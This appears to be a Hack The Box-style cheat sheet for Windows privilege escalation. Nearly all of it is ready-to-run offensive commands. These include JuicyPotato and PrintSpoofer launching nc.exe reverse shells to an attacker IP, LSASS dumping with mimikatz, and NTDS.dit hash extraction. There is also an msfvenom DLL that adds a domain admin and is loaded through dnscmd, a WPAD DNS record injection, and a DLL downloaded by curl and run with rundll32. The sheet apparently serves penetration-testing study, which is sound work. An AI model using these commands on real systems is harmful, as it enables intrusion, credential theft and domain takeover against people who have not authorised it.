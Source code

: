 
### I. Initial Enumeration

#### RDP & Network
```bash
xfreerdp /v:<target ip> /u:htb-student
ipconfig /all
arp -a
route print
netstat -ano 
```

#### AppLocker & Defender
```powershell
Get-MpComputerStatus
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```

#### System Info
```powershell
set
systeminfo
wmic qfe
wmic product get name
```

#### Users & Processes
```powershell
tasklist /svc
query user
echo %USERNAME%
whoami /priv
whoami /groups
net user
net localgroup
net localgroup administrators
net accounts
```

#### Named Pipes
```powershell
pipelist.exe /accepteula
gci \\.\pipe\
accesschk.exe /accepteula \\.\Pipe\lsass -v
```

### II. Handy Commands

#### SQL Server
```bash
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
enable_xp_cmdshell
xp_cmdshell whoami
```

#### Privilege Escalation
```bash
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

#### LSASS Dumping & Mimikatz
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

#### File Ownership & ACLs
```powershell
dir /q C:\backups\wwwroot\web.config
takeown /f C:\backups\wwwroot\web.config
Get-ChildItem -Path 'C:\backups\wwwroot\web.config' | select name, directory, @{Name="Owner"; Expression={(Get-ACL $_.Fullname).Owner}}
icacls "C:\backups\wwwroot\web.config" /grant htb-student:F
```

#### Hash Extraction & File Copy
```bash
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
robocopy /B E:\Windows\NTDS\ntds ntds.dit
```

#### Event Logs
```powershell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } | Select-Object @{name='CommandLine'; expression={ $_.Properties[8].Value }}
```

#### DLLs, Users, & Services
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
dnscmd.exe /config /serverlevelplugindll adduser.dll
wmic useraccount where name="netadm" get sid
sc.exe sdshow DNS
sc stop dns
sc start dns
```

#### Registry & DNS
```powershell
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
sc query dns
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

#### File Transfer & Execution
```powershell
curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

#### Credential Theft - File Search
```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
(Get-PSReadLineOption).HistorySavePath
gc (Get-PSReadLineOption).HistorySavePath
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt
```

